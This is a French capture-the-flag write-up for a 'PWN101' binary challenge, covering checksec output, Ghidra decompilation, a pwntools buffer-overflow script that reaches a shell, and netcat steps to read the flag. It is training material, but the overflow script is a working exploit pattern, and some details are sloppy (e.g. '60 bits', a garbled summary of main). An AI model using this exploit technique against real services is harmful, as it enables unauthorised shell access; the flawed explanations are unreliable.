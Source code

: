 # PWN101 challenge

## basic check

checksec --file=pwn101-1644307211706.pwn101
RLEO : full releo
STACK CANARY : No canary found
NX : NX enabled
PIE : PIE enabled

> pas de protection canary donc on peut executer une attaque buffer overflow

## executer le fichier

chmod + pwn101-1644307211706.pwn101
./pwn101-1644307211706.pwn101

     ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 101          

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani:
AAAAAAAAAAAAA
Nah bruh, you lied me :(
She did Tomato rice instead of briyani :/

## utiliser ghidra pour dessasembler le code

void main(void)

{
  char local_48 [60];
  int local_c;
  
  local_c = 0x539;
  setup();
  banner();
  puts(
      "Hello!, I am going to shopping.\nMy mom told me to buy some ingredients.\nUmmm.. But I have l ow memory capacity, So I forgot most of them.\nAnyway, she is preparing Briyani for lunch, Can  you help me to buy those items :D\n"
      );
  puts("Type the required ingredients to make briyani: ");
  gets(local_48);
  if (local_c == 0x539) {
    puts("Nah bruh, you lied me :(\nShe did Tomato rice instead of briyani :/");
                    /*WARNING: Subroutine does not return*/
    exit(0x539);
  }
  puts("Thanks, Here\'s a small gift for you <3");
  system("/bin/sh");
  return;
}

## resumé du main

Setup et affichage de bannière

Lit une chaîne utilisateur avec gets() dans une variable locale

Compare une variable locale initialisée à 1337

Si égal →affiche message erreur et quitte

Sinon →affiche message, exécute une commande shell via system() affiche message erreur et quitte avec code 1337

## approche de l'exploit

Dans le code on va saisir une chaine avec la fonction gets () qui est une fonction vulnerable
donc on va preparer un payload de taille +> 60 bits pour reecrire une autre valeur dans la variable locale
local_c

from pwn import *
host = "adresse de la machine "
port = 9001

io = remote(host, port)
payload = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB"
io.sendline(payload)
io.interactive()

## conexion au serveur a distance

nc @machine 9001
entrer le payload
un shell va s'ouvrir
ls
cat flag.txt
obtenir le flag
